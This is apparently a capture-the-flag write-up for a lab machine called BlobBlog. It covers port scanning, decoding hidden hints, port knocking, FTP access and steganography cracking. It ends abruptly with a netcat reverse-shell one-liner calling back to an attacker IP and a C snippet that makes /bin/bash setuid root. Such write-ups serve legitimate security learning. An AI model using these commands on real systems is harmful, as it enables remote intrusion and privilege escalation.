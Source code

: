 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx blobblog.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV blobblog.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# HTTP (port 80)
found a base64, decode it and give us a brainfuck code
execute the brain code fuck give us that : 
When I was a kid, my friends and I would always knock on 3 of our neighbors doors.  Always houses 1, then 3, then 5!

bottom of the page, we found that
```
<!--
Dang it Bob, why do you always forget your password?
I'll encode for you here so nobody else can figure out what it is: 
HcfP8J54AK4
-->
```

decode from base58, it gives us : cUpC4k3s


seems we need to knock to port 1 then 3 then 5
we redo a nmap and find more port

```
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.2
22/tcp   open     ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open     http    Apache httpd 2.4.7 ((Ubuntu))
5355/tcp filtered llmnr
8080/tcp open     http    Werkzeug httpd 1.0.1 (Python 3.5.3)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

ok let's enumerate more on port 80\
it seems there is nothing more

# FTP (port 21)

we can use previous code to login to ftp
bob:cUpC4k3s

we found 2 files :
- cool.jpeg
- examples.desktop

```
┌──(kali㉿kali)-[~/thm/BlobBlog]
└─$ stegseek --crack cool.jpeg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "p@55w0rd"       
[i] Original filename: "out.txt".
[i] Extracting to "cool.jpeg.out".

┌──(kali㉿kali)-[~/thm/BlobBlog]
└─$ cat cool.jpeg.out 
zcv:p1fd3v3amT@55n0pr
/bobs_safe_for_stuff
```

# HTTP (port 445)
http://blobblog.thm:445/bobs_safe_for_stuff
Remember this next time bob, you need it to get into the blog! I'm taking this down tomorrow, so write it down!
- youmayenter

http://blobblog.thm:445/user
we found a openssl private key but cant use it

# HTTP (port 8080)
we found an other url on 8080
http://blobblog.thm:8080/blog
http://blobblog.thm:8080/login
http://blobblog.thm:8080/review

we vigenère cipher with zcv and can decrypt it with passphrase youmayenter
bob:d1ff3r3ntP@55w0rd

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.72.209 6666 >/tmp/f


#include <sys/stat.h>

int main(void) {
  chmod("/bin/bash", 04777);
  return 0;
}
